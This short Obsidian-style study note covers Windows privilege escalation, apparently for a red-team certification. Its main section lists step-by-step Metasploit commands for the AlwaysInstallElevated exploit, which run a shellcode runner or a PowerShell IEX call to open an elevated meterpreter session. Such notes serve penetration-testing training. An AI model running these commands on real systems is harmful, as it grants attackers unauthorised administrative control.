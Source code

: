 
## Privilege Escalation

```ad-seealso
title: Internal Privilege Escalation Notes
collapse:yes

~~~dataview
list from #windows 
and #privilegeescalation 
~~~
- [[03 - Content/Cert/CRTE/AD Privilege Escalation - Local Privilege Escalation|Local Privilege Escalation Cheatsheet]]
- Vulnerable Applications
- Vulnerable Kernel
```

```ad-seealso
title:AlwaysInstallElevated Privilege Escalation (Meterpreter)
collapse:yes

First *start a meterpreter listener* and run as job "run -j"

> Remember to use the correct session number before the following command

~~~bash
use exploit/windows/local/always_install_elevated
~~~

~~~bash
set VERBOSE true
~~~

~~~bash
set payload windows/exec
~~~

~~~bash
set session 1
~~~

> Set command variable to execute your shellcode runner's location

~~~bash
set cmd 'C:\Windows\Tasks\NR.exe -epi'
~~~

~~~bash
run
~~~

> Set command variable to IEX your shellcode runner

~~~bash
set cmd 'powershell IEX(...)'; run
~~~

> You will receive a new meterpreter session, interact with it.
```
